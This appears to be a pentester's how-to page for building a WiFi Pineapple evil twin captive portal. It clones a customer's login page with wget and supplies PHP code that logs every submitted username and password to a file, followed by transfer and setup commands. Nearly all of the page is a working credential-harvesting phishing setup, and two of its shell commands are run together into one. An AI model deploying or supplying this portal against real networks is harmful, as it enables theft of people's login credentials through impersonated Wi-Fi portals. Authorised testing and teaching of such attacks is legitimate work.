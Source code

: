 # WiFi Pineapple \| Captive Portal and Evil Twin



From WiFi Pineapple admin page

### Step \#1 \| Install Evil Portal

Go to **Modules** &gt;&gt; **Manage Modules** &gt;&gt; **Install Evil Portal**

### Step \#2 \| Create a New Portal

Go to **EvilPortal** &gt;&gt; **Create New Portal**

### Step \#3 \| Create Captive portal 

Clone the customer website or captive portal page

```text
$ wget -mkEpnp https://Customer/Pages/contractorlogin.aspx
```

{% hint style="info" %}
**Note:**

All portals are saved in: `/root/portals/` on WifiPineapple system
{% endhint %}

### Step \#3 \| **Configure** the Captive portal 

In `/root/portals/CustomerPortal`, edit \( MyPortal.php, index.php \) to be:

```php
<?php namespace evilportal;

class MyPortal extends Portal
{

    public function handleAuthorization()
    {

        file_put_contents('/tmp/evilportal.log', "Username:"."{$this->request->username}\n", FILE_APPEND);
        file_put_contents('/tmp/evilportal.log', "Password:"."{$this->request->password}\n", FILE_APPEND);

        // Call parent to handle basic authorization first
        parent::handleAuthorization();

        // Check for other form data here
    }

    public function showSuccess()
    {
        // Calls default success message
        parent::showSuccess();
    }

    public function showError()
    {
        // Calls default error message
        parent::showError();
    }
}
```

{% hint style="info" %}
**Note:** 

All CSS and Javascript file that related to _index.php_ must be uploaded to wifi pineapple in the customer path\(eg. `/root/portals/CustomerPortal`\)
{% endhint %}

Zip the files, transfer them to wifi pineapple then unzip. You may need to install unzip command in wifi pineapple.

```text
scp _assets.zip root@172.16.42.1:/root/portals/CustomerPortal/
```

Install unzip on wifi pineapple

```text
opkg updateopkg install unzip
```

Unzip

```text
unzip _assets.zip
```

Finally, create the log file to collect credentials on wifi pineapple

```text
touch /tmp/evilportal.log
```

## **Resources**

* ​[https://www.youtube.com/watch?v=Kxj7riAdFgw](https://www.youtube.com/watch?v=Kxj7riAdFgw)​
* ​[https://www.youtube.com/watch?v=MVzS1164QgY](https://www.youtube.com/watch?v=MVzS1164QgY)​
* ​[https://www.youtube.com/watch?v=eJatmHNfTtQ](https://www.youtube.com/watch?v=eJatmHNfTtQ)​
* ​[https://www.youtube.com/watch?v=eJatmHNfTtQ](https://www.youtube.com/watch?v=eJatmHNfTtQ)

